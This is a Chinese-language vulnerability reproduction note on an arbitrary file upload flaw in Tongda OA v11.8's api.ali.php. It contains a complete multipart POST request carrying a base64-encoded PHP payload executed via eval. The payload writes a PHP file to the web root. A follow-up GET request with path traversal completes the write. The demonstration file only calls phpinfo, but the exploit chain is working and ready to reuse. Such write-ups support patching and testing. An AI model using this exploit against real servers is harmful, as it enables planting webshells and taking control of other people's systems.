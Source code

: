 # 通达OA v11.8 api.ali.php 任意文件上传漏洞

## 漏洞描述

通达OA v11.8 api.ali.php 存在任意文件上传漏洞，攻击者通过漏可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a.png)

像 api.ali.php 发送请求包

```python
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

<a-checkbox checked>参数a base解码</a-checkbox></br>

<a-checkbox checked>ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','<?php phpinfo();?>');</a-checkbox></br>

![img](/assets/PeiQi-Wiki/img/1630513004438-e5a73ef6-8d65-40a1-9a3c-3be30cd7d164.png)

再发送GET请求写入文件

```python
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

![img](/assets/PeiQi-Wiki/img/1630513044174-8139c404-4f11-404e-be04-42d86b407bdd.png)

其中请求中对 2109 为 年月,路径为 `/fb6790f4.php,`

![img](/assets/PeiQi-Wiki/img/1630513283771-36cc86c7-a150-4834-be64-243b20938165.png)